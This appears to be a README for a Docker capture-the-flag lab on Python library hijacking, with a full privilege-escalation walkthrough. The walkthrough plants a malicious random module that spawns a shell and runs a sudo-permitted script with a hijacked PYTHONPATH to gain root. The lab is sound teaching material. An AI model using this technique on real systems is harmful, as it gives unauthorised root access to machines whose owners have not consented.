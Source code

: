 # Library Hijacking CTF Challenge

## 🏴 Challenge Overview
Welcome to the **Library Hijacking CTF** challenge! This is a beginner-to-intermediate level machine-based CTF where the attacker needs to escalate privileges by exploiting a misconfigured Python script that runs with root privileges.

---

## 🎯 Objective
Your goal is to gain **root access** by exploiting a Python library hijacking vulnerability. You will connect to the machine using **SSH**, enumerate the system, and escalate privileges to obtain a root shell.

---

## 🛠 Setup
This challenge runs inside a **Docker container**. To deploy it, use the following commands:
```bash
docker pull e51am/ctf
docker run -dit --name library_hijacking_ctf -p 2222:22 e51am/ctf
```

Once the container is running, you can SSH into the machine using:
```bash
ssh ctfuser@localhost -p 2222
Password: password
```

---

## 🔍 Enumeration & Exploitation
### 1️⃣ **Initial Access**
- The attacker discovers **credentials** for SSH login:  
  **Username:** `ctfuser`  
  **Password:** `password`
- Using the credentials, they connect via SSH:
  ```bash
  ssh ctfuser@localhost -p 2222
  ```

### 2️⃣ **Privilege Escalation - Enumerating sudo Permissions**
- Running the following command reveals a **sudo misconfiguration**:
  ```bash
  sudo -l
  ```
- Output:
  ```
  (ALL) NOPASSWD: /usr/bin/python3 vulnerable_script.py
  ```
- This means `ctfuser` can execute `vulnerable_script.py` **as root** without a password.

### 3️⃣ **Analyzing the Vulnerable Script**
- Checking the contents of `/opt/scripts/vulnerable_script.py`:
  ```bash
  cat /opt/scripts/vulnerable_script.py
  ```
  **Output:**
  ```python
  import random
  choices = ["Rock", "Paper", "Scissors"]
  computer = random.choice(choices)
  player = False
  cpu_score = 0
  player_score = 0
  while True:
    player = input("Rock, Paper or  Scissors?").capitalize()
    ## Conditions of Rock,Paper and Scissors
    if player == computer:
        print("Tie!")
    elif player == "Rock":
        if computer == "Paper":
            print("You lose!", computer, "covers", player)
            cpu_score+=1
        else:
            print("You win!", player, "smashes", computer)
            player_score+=1
    elif player == "Paper":
        if computer == "Scissors":
            print("You lose!", computer, "cut", player)
            cpu_score+=1
        else:
            print("You win!", player, "covers", computer)
            player_score+=1
    elif player == "Scissors":
        if computer == "Rock":
            print("You lose...", computer, "smashes", player)
            cpu_score+=1
        else:
            print("You win!", player, "cut", computer)
            player_score+=1
    elif player=='End':
        print("Final Scores:")
        print(f"CPU:{cpu_score}")
        print(f"Plaer:{player_score}")
        break
  ```
- The script imports **random**, which we can **hijack**!

### 4️⃣ **Exploiting Library Hijacking**
- We create a **malicious version** of `random.py` in `/tmp`:
  ```bash
  mkdir -p /tmp/random
  echo 'import os; os.system("/bin/bash")' > /tmp/random/__init__.py
  ```
- Set the `PYTHONPATH` to prioritize our malicious library:
  ```bash
  PYTHONPATH=/tmp sudo /usr/bin/python3 /opt/scripts/vulnerable_script.py
  ```
- This spawns a **root shell**! 🎉

---

## 🏆 Capture the Flag
Once you gain root access, find the flag inside:
```bash
cat /root/flag.txt
```

---

## 📌 Hints
- Use `sudo -l` to check for **executable scripts with sudo privileges**.
- Find out which **libraries** the vulnerable script imports.
- Hijack the **imported library** to execute arbitrary code.

---

## 🚀 Conclusion
This challenge teaches **privilege escalation via Python library hijacking**, a common misconfiguration found in real-world scenarios. Happy hacking! 🏴‍☠️

---

## 📜 Disclaimer
This challenge is for **educational purposes only**. Do not attempt these techniques on unauthorized systems!

